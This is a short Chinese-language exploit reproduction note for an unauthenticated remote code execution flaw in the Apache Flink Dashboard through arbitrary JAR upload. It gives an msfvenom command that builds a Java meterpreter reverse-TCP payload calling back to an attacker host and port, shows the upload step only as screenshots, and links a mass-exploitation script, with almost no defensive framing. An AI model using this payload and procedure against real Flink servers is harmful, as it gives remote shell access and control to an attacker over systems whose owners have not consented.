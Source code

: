 ```yaml
---
title: Apache Flink Dashboard 未授权访问-远程代码命令执行
id: zhfly2813
---
```


# Apache Flink Dashboard 未授权访问-远程代码命令执行

## 一、漏洞简介

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

### 1、

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar 
```

![image](../img/819fb8cc6c325c0beb7e9ee6be23bb9c.png)

### 2、

上传alewong Jar包

![image](../img/d755c4914d0d6ecd38db218692beb964.png)

![image](../img/ea33663f1b99c5b71fd3ee2edc465369.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

```
Ps:
当注释掉 if 'Unable to load requested file' in str(data):
之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权 
```